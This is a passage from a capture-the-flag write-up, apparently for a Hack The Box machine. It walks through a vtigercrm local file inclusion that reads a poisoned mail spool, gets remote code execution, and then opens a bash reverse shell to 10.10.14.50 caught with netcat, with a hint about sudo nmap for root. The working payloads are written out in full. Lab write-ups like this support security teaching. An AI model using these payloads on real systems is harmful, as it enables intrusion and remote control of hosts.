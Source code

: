 ```
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

Afterwards we can check if the email was successfully sent and received:

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../var/mail/asterisk%00
```

With the LFI, we can leak the email that we have just sent. This also means, that our PHP code now gets executed!

```
From babbadeckl@pwn.com  Wed Jan 13 22:48:18 2021
Return-Path: <babbadeckl@pwn.com>
X-Original-To: asterisk@localhost
Delivered-To: asterisk@localhost.localdomain
Received: from babbadeckl (unknown [10.10.14.50])
	by beep.localdomain (Postfix) with ESMTP id 86A1ED92FF
	for <asterisk@localhost>; Wed, 13 Jan 2021 22:47:17 +0200 (EET)
Subject: RCE
Message-Id: <20210113204725.86A1ED92FF@beep.localdomain>
Date: Wed, 13 Jan 2021 22:47:17 +0200 (EET)
From: babbadeckl@pwn.com
To: undisclosed-recipients:;
```

Now when we append our malicious parameter `babbadeckl`, that we included in the injected PHP code, we have RCE:

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../var/mail/asterisk%00&babbadeckl=id


Date: Wed, 13 Jan 2021 22:47:17 +0200 (EET)
From: babbadeckl@pwn.com
To: undisclosed-recipients:;

uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```

Let's spawn a reverse shell!

```
module_name=../../../../../../../../var/mail/asterisk%00&babbadeckl=bash+-i+>%26+/dev/tcp/10.10.14.50/4444+0>%261
```

And we get a shell! Now simply follow the steps from above to obtain root privileges (sudo nmap).

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.1.226] 47868
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```
